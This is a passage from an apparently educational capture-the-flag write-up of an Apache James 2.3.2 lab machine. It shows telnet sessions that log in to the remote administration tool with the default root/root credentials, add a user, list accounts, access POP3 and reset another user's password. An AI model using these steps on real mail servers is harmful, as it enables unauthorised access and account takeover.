 We create the user **s4rgaz**.

```bash
adduser s4rgaz 123
User s4rgaz added
listusers
Existing accounts 6
user: james
user: thomas
user: john
user: mindy
user: s4rgaz
user: mailadmin
quit
Bye
Connection closed by foreign host.
root@kali:~$
```

### Enumeration on service pop3

By logging in to pop3 service as user **s4rgaz**, we have successful access, so we can manage the users to be able to access to pop3 service.

```bash
root@kali:~$ telnet 192.168.179.185 110
Trying 192.168.179.185...
Connected to 192.168.179.185.
Escape character is '^]'.
+OK solidstate POP3 server (JAMES POP3 Server 2.3.2) ready 
user s4rgaz
+OK
pass 123
+OK Welcome s4rgaz
list
+OK 0 0
.
quit
+OK Apache James POP3 Server signing off.
Connection closed by foreign host.
root@kali:~$
```

We go back to the service running on port 4545 and change john’s password.

```bash
root@kali:~$ telnet 192.168.179.185 4555
Trying 192.168.179.185...
Connected to 192.168.179.185.
Escape character is '^]'.
JAMES Remote Administration Tool 2.3.2
Please enter your login and password
Login id:
root
Password:
root
Welcome root. HELP for a list of commands
setpassword john john
Password for john reset
```

